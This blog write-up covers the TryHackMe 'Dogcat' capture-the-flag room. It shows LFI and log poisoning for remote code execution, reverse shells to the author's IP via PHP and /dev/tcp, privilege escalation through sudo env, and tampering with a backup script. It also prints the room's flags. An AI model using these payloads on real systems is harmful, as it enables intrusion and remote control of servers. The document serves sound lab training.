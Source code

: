 ```yaml
---
title: "Dogcat - TryHackMe"
author: Ludovic COULON
date: 2020-06-02
hero: ./images/hero.png
excerpt: "Writeup for the Dogcat room on TryHackMe"
---
```


[TryHackMe | Dogcat](https://tryhackme.com/room/dogcat)

<div className="Image__Small">
  <img src="https://i.imgur.com/mj1rbea.png" alt="blog_image" />
</div>

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!

**This machine may take a few minutes to fully start up.**

---

### Setup

```bash
➜  TryHackMe nmap -A -vv 10.10.121.12
```

```bash
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCeKBugyQF6HXEU3mbcoDHQrassdoNtJToZ9jaNj4Sj9MrWISOmr0qkxNx2sHPxz89dR0ilnjCyT3YgcI5rtcwGT9RtSwlxcol5KuDveQGO8iYDgC/tjYYC9kefS1ymnbm0I4foYZh9S+erXAaXMO2Iac6nYk8jtkS2hg+vAx+7+5i4fiaLovQSYLd1R2Mu0DLnUIP7jJ1645aqYMnXxp/bi30SpJCchHeMx7zsBJpAMfpY9SYyz4jcgCGhEygvZ0jWJ+qx76/kaujl4IMZXarWAqchYufg57Hqb7KJE216q4MUUSHou1TPhJjVqk92a9rMUU2VZHJhERfMxFHVwn3H
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBouHlbsFayrqWaldHlTkZkkyVCu3jXPO1lT3oWtx/6dINbYBv0MTdTAMgXKtg6M/CVQGfjQqFS2l2wwj/4rT0s=
|   256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIfp73VYZTWg6dtrDGS/d5NoJjoc4q0Fi0Gsg3Dl+M3I

80/tcp open  http    syn-ack Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### #1 What is flag 1?

I'm going to try some basic LFI

<div className="Image__Medium">
  <img src="https://imgur.com/IeJGwlC.png" alt="blog_image" />
</div>

<div className="Image__Medium">
  <img src="https://imgur.com/UMyhkfJ.png" alt="blog_image" />
</div>

I'm going to try with php filter let's see if this works..

[LFI Cheat Sheet](https://highon.coffee/blog/lfi-cheat-sheet/)

<div className="Image__Medium">
  <img src="https://imgur.com/FXeOWux.png" alt="blog_image" />
</div>

```bash
php://filter/convert.base64-encode/resource=cat
# Let's decode the base64 to see the result
<img src="cats/<?php echo rand(1, 10); ?>.jpg" />
```

<div className="Image__Medium">
  <img src="https://imgur.com/jF0hO89.png" alt="blog_image" />
</div>

Nice ! We can see the php code let's see if there is something in the directory

```bash
php://filter/convert.base64-encode/resource=./cat/../index
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

</html>
```

There we go ! We have the php code let's see if we can do something with it 🤤

So.. There is no way that we can exploit the php code so let's look at the nmap result and we have the apache version, let's see if we can see the log.

```bash
By default, you can find the Apache access log file at the following path:

    /var/log/apache/access. log.
    /var/log/apache2/access. log.
    /etc/httpd/logs/access_log.
```

If we try with this following url

```bash
php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log
```

There will be an error its because the code don't like the ".log" let's correct that 😃

On the php code there is this ternary condition "\$\_GET["ext"]" let's use that at the end

<div className="Image__Medium">
  <img src="https://imgur.com/25dLhcZ.png" alt="blog_image" />
</div>

Nice ! It worked !! 😵

Let's decode the base64 to see the result 😊

```bash
10.9.2.228 - - [02/Jun/2020:20:38:04 +0000] "GET /?view=php://filter/convert.base64-encode/resource=./cat/../../../../../../../../../../../../../var/log/apache2/access.log&ext HTTP/1.1" 200 2890 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

Now let's see if we can have an RCE attack 🤑

<div className="Image__Medium">
  <img src="https://imgur.com/gZZJUJR.png" alt="blog_image" />
</div>

And there it is ! If we put "<?php system($_GET['cmd']);?>" on the user-agent we can execute code on the remote server.

Let's get a reverse shell using the same method..

[php | GTFOBins](https://gtfobins.github.io/gtfobins/php/#reverse-shell)

```bash

php -r '$sock=fsockopen("10.9.2.228"),"",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

<div className="Image__Small">
  <img src="https://imgur.com/2bjNiUu.png" alt="blog_image" />
</div>

```bash
$ cat flag.php
<?php
$flag_1 = "THM{Th1s_1s_N0t_4_Catdog_ab67edfa}"
?>
```

### #2 What is flag 2?

```bash
$ cd ..
$ pwd
/var/www
$ ls
flag2_QMW7JvaY2LvK.txt
html
$ cat flag2_QMW7JvaY2LvK.txt
THM{LF1_t0_RC3_aec3fb}
```

### #3 What is flag 3?

```bash
$ sudo -l
Matching Defaults entries for www-data on 17d35d82c239:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 17d35d82c239:
    (root) NOPASSWD: /usr/bin/env
```

[https://gtfobins.github.io/gtfobins/env/#sudo](https://gtfobins.github.io/gtfobins/env/#sudo)

```bash
sudo env /bin/sh
```

```bash
id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
flag3.txt
cat flag3.txt
THM{D1ff3r3nt_3nv1ronments_874112}
```

### #4 What is flag 4?

```bash
find / -type f -name *.sh 2>/dev/null
/opt/backups/backup.sh
/etc/init.d/hwclock.sh
/lib/init/vars.sh
/usr/local/lib/php/build/ltmain.sh
/usr/share/debconf/confmodule.sh
```

```bash
cd /opt/backups
ls
backup.sh
backup.tar
cat backup.sh
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Let's add a reverse shell on the bash script and get hopefully the last flag 🤓

```bash
echo '#!/bin/bash' > backup.sh;echo 'bash -i >& /dev/tcp/10.9.2.228/9002 0>&1' >> backup.sh
```

```bash
➜  ~ nc -lnvp 9002
listening on [any] 9002 ...
connect to [10.9.2.228] from (UNKNOWN) [10.10.121.12] 43500
bash: cannot set terminal process group (5464): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4*
cat flag4*
THM{esc4l4tions_on_esc4l4tions_on_esc4l4tions_7a52b17dba6ebb0dc38bc1049bcba02d}
root@dogcat:~#
```

<center>
  <a href="https://tryhackme.com/p/boperXD" target="_blank">
    <img src="https://i.imgur.com/tpmhPhO.png" alt="TryhackMeProfile" />
  </a>
</center>

